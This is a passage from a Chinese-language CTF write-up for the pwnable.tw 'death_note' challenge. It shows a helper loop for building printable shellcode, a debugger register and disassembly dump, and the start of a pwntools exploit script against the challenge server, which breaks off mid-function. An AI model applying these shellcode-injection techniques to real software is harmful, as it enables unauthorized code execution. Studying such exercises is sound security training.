 这里有 `sub` 指令，可以通过溢出多次减法来得到想要的字节：

```python
x = 0x80 # 0xcd
t = 0
while True:
	x = (x + 0x50) & 0xFF
	t += 1
	if x >= 0x20 and x < 0x7F:
		print t
		print hex(x)
		break
```

简单地调试一下，看到执行 shellcode 的时候，四个通用寄存器这里 `edx` 指向了输入的 shellcode，这样的话之后会方便很多：

```
─────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────
 EAX  0xfffffff0
 EBX  0x0
 ECX  0x0
 EDX  0x8b33008 ◂— 0x58 /* 'X' */
 EDI  0xf7753000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf7753000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0xfff18ac8 —▸ 0xfff18ad8 ◂— 0x0
 ESP  0xfff18a4c —▸ 0x80487f4 (add_note+165) ◂— add    esp, 0x10
 EIP  0x80484c0 (puts@plt) ◂— jmp    dword ptr [0x804a020]
──────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
 ► 0x80484c0 <puts@plt>    jmp    dword ptr [0x804a020]
    ↓
   0x8b33008               pop    eax
   0x8b33009               add    byte ptr [eax], al
   0x8b3300b               add    byte ptr [eax], al
   0x8b3300d               add    byte ptr [eax], al
   0x8b3300f               add    byte ptr [eax], al
   0x8b33011               add    byte ptr [eax], al
   0x8b33013               add    cl, dh
   0x8b33015               lar    eax, word ptr [eax]
   0x8b33018               add    byte ptr [eax], al
   0x8b3301a               add    byte ptr [eax], al
```

脚本：

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'

local = 0
if local:
	p = process('./death_note')
else:
	p = remote('chall.pwnable.tw', 10201)

elf = ELF('./death_note')

def cmd(c):
	p.recvuntil('choice :')
	p.sendline(str(c))

def add(idx, name):
	cmd(1)
	p.recvuntil('Index :')
	p.sendline(str(idx))
	p.recvuntil('Name :')
```